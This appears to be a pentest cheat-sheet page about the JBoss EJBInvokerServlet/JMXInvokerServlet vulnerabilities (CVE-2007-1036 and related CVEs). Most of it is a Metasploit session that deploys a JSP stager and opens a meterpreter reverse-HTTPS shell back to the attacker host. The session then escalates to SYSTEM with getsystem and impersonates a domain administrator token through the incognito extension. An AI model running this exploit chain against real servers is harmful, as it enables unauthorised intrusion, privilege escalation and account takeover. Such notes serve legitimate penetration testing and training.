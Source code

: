 ```yaml
---
title : "CVE-2007-1036"
# pre : ' '
description : "Apache Tomcat / JBoss EJBInvokerServlet / JMXInvokerServlet Multiple Vulnerabilities."
date : 2020-06-24T11:33:36+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Apache Tomcat / JBoss EJBInvokerServlet / JMXInvokerServlet Multiple Vulnerabilities

* CVE-2007-1036
* CVE-2012-0874
* CVE-2013-4810

## Usage

```plain
msf5 use exploit/multi/http/jboss_invoke_deploy
```

## Examples

```plain
msf5 use exploit/multi/http/jboss_invoke_deploy
msf5 exploit(multi/http/jboss_invoke_deploy) > SET RHOSTS 10.10.10.10
msf5 exploit(multi/http/jboss_invoke_deploy) > SET RHPORT 8180
msf5 exploit(multi/http/jboss_invoke_deploy) > SET PAYLOAD windows/meterpreter/reverse_https
msf5 exploit(multi/http/jboss_invoke_deploy) > SET LHOST 10.10.10.1
msf5 exploit(multi/http/jboss_invoke_deploy) > SET LPORT 8443
msf5 exploit(multi/http/jboss_invoke_deploy) > run

[*] Started HTTPS reverse handler on https://10.10.10.1:8443
[*] Using manually select target: "Windows Universal"
[*] Deploying stager
[*] Calling stager: /EnyMtdpsHwfYUU/idIzmUiHUjmzdC.jsp
[*] Uploading payload through stager
[*] Calling payload: /BiAbpcPbeQku/MAhczELmEptIOJe.jsp
[*] Removing payload through stager
[*] Removing stager
[*] https://10.10.10.1:8443 handling request from 10.10.10.10; (UUID: 4goaaaae) Staging x86 payload (177241 bytes) ...
[*] Meterpreter session 1 opened (10.10.10.1:8443 -> 10.10.10.10:50537) at 1970-01-01 00:01:00 +0200

meterpreter > getsystem
...got system (via technique 1).
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
offsec.nl\adm-JohnDo

meterpreter > impersonate_token offsec.nl\adm-JohnDo
[+] Delegation token available
[+] Successfully impersonated user offsec.nl\adm-JohnDo
meterpreter > getuid
Server username: offsec.nl\adm-JohnDo
```

## URL List

- [Nessus.org](http://www.nessus.org/u?74979c27)
- [Tenable.com - ID 70414](https://www.tenable.com/plugins/nessus/70414)
